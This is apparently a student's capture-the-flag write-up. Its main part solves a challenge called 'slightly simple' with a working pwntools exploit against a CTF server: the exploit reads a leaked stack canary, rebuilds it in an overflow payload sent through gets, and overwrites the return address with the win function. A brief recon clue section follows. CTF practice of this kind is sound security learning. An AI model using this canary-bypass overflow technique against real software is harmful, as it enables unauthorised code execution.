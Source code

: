 ```python

p.interactive()
```

### slightly simple
_Key observations:_
* `gets` is used in `lol` - possible overflow vulnerability
* buffer starts being written at [ebp-0x20]
* canary check occurs with a value at [ebp-0xc]
* canary value is printed out
* `win` function is provided

_Overview:_
* obtain the given canary value
* pad the payload to until the canary location at [ebp-0xc]
* rewrite the canary
* pad the rest of the payload
* overwrite the return address with the win function

_Code:_
```python
from pwn import *

p = remote('pwn.ctf.unswsecurity.com', 7005)

# obtain the canary value
p.recvuntil('hi\n')
canary = p.recvuntil('\n', drop=True)
canary = b'0x' + canary
canary = int(canary, 16)

payload = b''
# pad until the canary
payload += b'A' * (0x20-0xC)
# overwrite the canary
payload += p32(canary)
# pad till the return address
payload += b'A' * 0xC
# overwrite return address
payload += p32(0x80491c6)

p.sendline(payload)

p.interactive()
```

## Recon
### dorf0 - sneaky shouts
_Key observations:_
* location was at 33-39 hunter st
* clue was frankie the fox
